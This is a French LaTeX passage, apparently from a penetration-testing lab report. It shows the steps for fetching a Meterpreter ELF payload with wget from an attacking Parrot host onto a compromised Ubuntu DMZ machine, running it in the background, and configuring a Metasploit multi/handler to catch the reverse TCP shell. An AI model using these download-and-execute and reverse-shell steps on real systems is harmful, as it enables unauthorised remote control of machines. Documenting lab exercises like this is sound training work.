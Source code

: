 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	Depuis le shell Telnet sur Ubuntu DMZ :
	
	\begin{lstlisting}[caption=Téléchargement via wget]
		$ cd /tmp
		$ wget http://192.168.100.150:8000/meterpreter.elf
		--2026-03-04 15:08:12--  http://192.168.100.150:8000/meterpreter.elf
		Connecting to 192.168.100.150:8000... connected.
		HTTP request sent, awaiting response... 200 OK
		Length: 250 [application/octet-stream]
		Saving to: 'meterpreter.elf'
		
		meterpreter.elf   100%[========>]  250  --.-KB/s    in 0s
		
		2026-03-04 15:08:12 (45.3 MB/s) - 'meterpreter.elf' saved [250/250]
	\end{lstlisting}
	
	\subsection{Exécution du Payload}
	
	\begin{lstlisting}[caption=Lancement en Arrière-Plan]
		$ chmod +x meterpreter.elf
		$ ./meterpreter.elf &
		[1] 4779
	\end{lstlisting}
	
	\textbf{Note :} L'exécution en arrière-plan (\texttt{\&}) permet de conserver le shell Telnet actif en cas de problème avec Meterpreter.
	
	\section{Configuration du Handler Metasploit}
	
	\subsection{Lancement du Handler}
	
	Sur la machine attaquante (Parrot), nous configurons le handler pour recevoir la connexion :
	
	\begin{lstlisting}[caption=Configuration du Multi Handler]
		$ msfconsole -q
		
		[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD linux/x64/meterpreter/reverse_tcp
		PAYLOAD => linux/x64/meterpreter/reverse_tcp
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 192.168.100.150
		LHOST => 192.168.100.150
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4445
		LPORT => 4445
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit
		
		[*] Started reverse TCP handler on 192.168.100.150:4445
	\end{lstlisting}
	
\end{document}
